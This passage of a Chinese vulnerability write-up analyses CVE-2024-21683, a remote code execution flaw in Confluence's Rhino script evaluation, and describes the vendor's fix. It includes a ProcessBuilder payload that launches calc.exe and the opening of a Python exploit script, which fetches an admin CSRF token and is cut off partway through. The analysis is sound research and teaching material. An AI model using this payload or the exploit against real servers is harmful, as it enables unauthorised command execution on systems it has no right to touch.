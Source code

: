 ```java
public final Object evaluateString(Scriptable scope, String source, String sourceName, int lineno, Object securityDomain) {
    Script script = this.compileString(source, sourceName, lineno, securityDomain);
    return script != null ? script.exec(this, scope) : null;
}
```

可以参考以下两篇文章：

> [https://blog.51cto.com/u\_16213644/7333014](https://blog.51cto.com/u_16213644/7333014)
> 
> <https://dev.ariel-networks.com/Members/iwanaga/rhino-code-reading03/>

也就是说，会编译传入的脚本源代码，如果编译成功的话就执行该脚本并返回执行结果，如果编译失败，就返回 `null`。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-c8b9db780053a064632fa21c06dde3d858624a79.png)

而这个`evaluateReader`函数的第二个参数包含我们传入的脚本，并且它的代码没有任何安全过滤的操作，因此我们可以自定义一些恶意的代码，例如：

```javascript
new java.lang.ProcessBuilder["(java.lang.String[])"](["calc.exe"]).start()
```

具体还可以参考下面的文章学习：

> <https://blog.h3xstream.com/2014/11/remote-code-execution-by-design.html>
> 
> <https://srcincite.io/blog/2017/05/22/from-serialized-to-shell-auditing-google-web-toolkit-with-el-injection.html>
> 
> <https://book.hacktricks.xyz/v/cn/pentesting-web/ssti-server-side-template-injection/el-expression-language>

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-31cdeae5bfbbd119c961bf0225d2217cbcc298af.png)

那官方是怎么修复的呢？使用`initSafeStandardObjects`定义`rhino`的上下文，防止`JavaScript`引擎调用`Java`代码：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-3eac8a311407082591dd6a96fd1aa65fa7f2f6d2.png)  
这部分知识其实也可以参考：

> <https://help.aliyun.com/zh/security-center/user-guide/learn-about-application-protection>

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-fa3132a25cfb2259d078421b4886bec8019311b5.png)

三、自动化脚本编写
=========

<https://github.com/W01fh4cker/CVE-2024-21683-RCE>

```python
import argparse
import os

import requests
from bs4 import BeautifulSoup

def GeyAltToken(url, proxy, session):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36"
    }
    alttoken_url = f"{url}/admin/plugins/newcode/configure.action"
    resp = session.get(url=alttoken_url, headers=headers, verify=False, proxies=proxy, timeout=20)
    if "atlassian-token" in resp.text:
        soup = BeautifulSoup(resp.text, 'html.parser')
        meta_tag = soup.find('meta', {'id': 'atlassian-token', 'name': 'atlassian-token'})
        if meta_tag:
            content_value = meta_tag.get('content')
```